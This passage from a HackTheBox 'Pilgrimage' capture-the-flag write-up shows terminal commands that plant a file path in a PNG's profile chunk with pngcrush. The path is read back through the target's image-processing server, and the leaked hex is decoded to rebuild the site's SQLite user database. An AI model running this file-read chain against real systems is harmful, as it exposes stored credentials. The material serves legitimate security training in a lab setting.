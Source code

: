 ```bash
┌──(kali㉿kali)-[~/htb/pilgrimage/pilgrimage-repo]
└─$ cat login.php    

...SNIP...
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
...SNIP...
```

Let's read `/var/db/pilgrimage` file.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ pngcrush -text a "profile" "/var/db/pilgrimage" vjp.png
  Recompressing IDAT chunks in vjp.png to pngout.png
   Total length of data found in critical chunks            =     48746
   Best pngcrush method        =  10 (ws 15 fm 6 zl 9 zs 1) =     51649
CPU time decode 0.008320, encode 0.057263, other 0.001205, total 0.067979 sec


┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ wget http://pilgrimage.htb/shrunk/67f079f07c63f.png
--2025-04-04 18:30:44--  http://pilgrimage.htb/shrunk/67f079f07c63f.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19044 (19K) [image/png]
Saving to: ‘67f079f07c63f.png’

67f079f07c63f.png  100%[===============>]  18.60K  62.1KB/s    in 0.3s    

2025-04-04 18:30:45 (62.1 KB/s) - ‘67f079f07c63f.png’ saved [19044/19044]
```

It doesn't seem that I can naively process the extracted output.
Instead, I can use `grep -Pv "^(|Image)` to extract the part, and process only plain hex with `xxd -r -p` command.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ python read.py                                         
Traceback (most recent call last):
  File "/home/kali/htb/pilgrimage/read.py", line 575, in <module>
    print(bytes.fromhex(oneline_profile).decode("utf-8"))
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
UnicodeDecodeError: 'utf-8' codec can't decode byte 0x91 in position 99: invalid start byte



┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ identify -verbose 67f079f07c63f.png | grep -Pv "^( |Image)" | xxd -r -p> pilgrimage.sqlite



┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ file pilgrimage.sqlite 
pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 95, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 95
```
